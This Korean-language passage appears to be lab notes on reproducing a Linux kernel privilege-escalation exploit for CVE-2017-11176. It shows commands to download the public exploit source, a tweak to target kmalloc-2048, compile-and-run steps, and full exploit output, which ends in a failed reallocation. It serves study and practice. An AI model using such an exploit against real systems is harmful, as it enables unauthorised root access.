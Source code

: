 <br>

또한 target kernel은 compile하고 exploit을 돌려야 하므로 다음을 설치하자.<br>

```c
# apt install binutils gcc
$ wget https://raw.githubusercontent.com/lexfo/linux/master/cve-2017-11176.c
```
<br>

설치후에 제시된 타겟과 논문의 타겟의 코드 차이점으로 `kmalloc-1024` 대신 `kmalloc-2048`로 하자.<br>

```c
#define KMALLOC_TARGET 2048
```

이제 compile을 해서 exploit을 해보자.<br>

```c
# gcc -fpic -O0 -std=c99 -Wall -pthread cve-2017-11176.c -o exploit
# ./exploit
[ ] -={ CVE-2017-11176 Exploit }=-
[+] successfully migrated to CPU#0
[+] userland structures allocated:
[+] g_uland_wq_elt = 0x120001000
[+] g_fake_stack   = 0x20001000
[+] ROP-chain ready
[ ] optmem_max = 20480
[+] can use the 'ancillary data buffer' reallocation gadget!
[+] g_uland_wq_elt.func = 0xffffffff8107b6b8
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 200 reallocation threads ready!
[+] reallocation ready!
[+] 300 candidates created
[+] parsing '/proc/net/netlink' complete
[+] adjacent candidates found!
[+] netlink candidates ready:
[+] target.pid = -4166
[+] guard.pid  = -4304
[ ] preparing blocking netlink socket
[+] receive buffer reduced
[ ] flooding socket
[+] flood completed
[+] blocking socket ready
[+] netlink fd duplicated (unblock_fd=403, sock_fd2=404)
[ ] creating unblock thread...
[+] unblocking thread has been created!
[ ] get ready to block
[ ][unblock] closing 438 fd
[ ][unblock] unblocking now
[+] mq_notify succeed
[ ] creating unblock thread...
[+] unblocking thread has been created!
[ ] get ready to block
[ ][unblock] closing 404 fd
[ ][unblock] unblocking now
[+] mq_notify succeed
[+] guard socket closed
[ ] addr_len = 12
[ ] addr.nl_pid = -4166
[ ] magic_pid = 296082670
[-] magic PID does not match!
[-] failed to check realloc success status!
[-] reallocation failed!
[-] exploit failed!
[ ] press key to continue...
```